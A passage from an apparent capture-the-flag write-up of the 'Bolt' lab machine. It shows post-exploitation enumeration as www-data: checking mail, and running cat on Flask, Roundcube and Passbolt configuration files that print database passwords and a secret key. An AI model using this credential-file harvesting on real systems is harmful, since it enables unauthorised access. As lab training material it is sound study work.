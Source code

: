 A quick look around and we see that user Eddie has mail. Maybe this is something we should look at when we have the right privs.
```bash
www-data@bolt:/var/mail$ ls -al
< --- SNIP --- >
-rw-------  1 eddie    mail  909 Feb 25  2021 eddie

www-data@bolt:/var/mail$ cat eddie
cat: eddie: Permission denied
```

--------------------------------------------

### Step 6

Enumerating the box manually we find three config files, `~/demo/config.py` and `~/dev/config.py` are both identical and use the same database. Looking through the database gives us nothing new to use.

```bash
www-data@bolt:~/demo$ cat config.py 
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek
```

The third config file, `~/roundcube/config/config.py`, points toward a new database but just like the other two - no new information.

```bash
www-data@bolt:~/roundcube/config$ cat config.inc.php

< --- SNIP --- >

verify_server_cert=false'
$config['db_dsnw'] = 'mysql://roundcubeuser:WXg5He2wHt4QYHuyGET@localhost/roundcube';
```

So we have accounted for all three http domains, next lets have a look on the https domain, passbolt.bolt.htb.

```bash
www-data@bolt:/$ find / -type d -name "passbolt" 2>/dev/null
/etc/passbolt
/usr/share/php/passbolt
/usr/share/passbolt
/var/lib/passbolt
/var/log/passbolt

www-data@bolt:/etc/passbolt$ cat passbolt.php
<--- SNIP --->
	// Database configuration.
	'Datasources' => [
		'default' => [
			'host' => 'localhost',
			'port' => '3306',
			'username' => 'passbolt',
			'password' => 'rT2;jW7<eY8!dX8}pQ8%',
			'database' => 'passboltdb'
<--- SNIP --->
	'passbolt' => [
		// GPG Configuration.
		// The keyring must to be owned and accessible by the webserver user.
		// Example: www-data user on Debian
		'gpg' => [
			// Main server key.
```